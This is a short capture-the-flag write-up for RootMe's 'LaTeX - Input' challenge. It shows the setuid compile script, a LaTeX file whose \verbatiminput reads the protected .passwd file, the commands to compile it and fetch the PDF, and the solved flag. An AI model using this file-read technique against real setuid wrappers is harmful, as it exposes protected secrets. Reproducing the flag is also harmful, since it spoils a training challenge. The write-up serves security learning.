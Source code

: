 ```yaml
---
title: RootMe Latex Input WriteUp
date: 2023-10-03
categories: [RootMe, AppScript]
tags: [RootMe, RootMe - AppScript, WriteUp]
author: barabulkit
---
```


# Latex - Input

In this challenge we have next script:

```shell
#!/usr/bin/env bash
 
if [[ $# -ne 1 ]]; then
    echo "Usage : ${0} TEX_FILE"
fi
 
if [[ -f "${1}" ]]; then
    TMP=$(mktemp -d)
    cp "${1}" "${TMP}/main.tex"
 
    # Compilation
    echo "[+] Compilation ..."
    timeout 5 /usr/bin/pdflatex \
        -halt-on-error \
        -output-format=pdf \
        -output-directory "${TMP}" \
        -no-shell-escape \
        "${TMP}/main.tex" > /dev/null
 
    timeout 5 /usr/bin/pdflatex \
        -halt-on-error \
        -output-format=pdf \
        -output-directory "${TMP}" \
        -no-shell-escape \
        "${TMP}/main.tex" > /dev/null
 
    chmod u+w "${TMP}/main.tex"
    rm "${TMP}/main.tex"
    chmod 750 -R "${TMP}"
    if [[ -f "${TMP}/main.pdf" ]]; then
        echo "[+] Output file : ${TMP}/main.pdf"
    else
        echo "[!] Compilation error, your logs : ${TMP}/main.log"
    fi
else
    echo "[!] Can't access file ${1}"
fi
```

This script takes latex file and compile it
We can create following latex file that will include content of the file that we need

```latex
\documentclass[11pt]{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```

Compile it

```shell
./setuid-wrapper /tmp/main.tex
[+] Compilation ...
[+] Output file : /tmp/tmp.1OJwZyTkE0/main.pdf
```

And download

```shell
scp -P 2222 app-script-ch23@challenge02.root-me.org:/tmp/tmp.1OJwZyTkE0/main.pdf .
```

Inside downloaded file we will see the flag `LaTeX_1nput_1s_n0t_v3ry_s3kur3`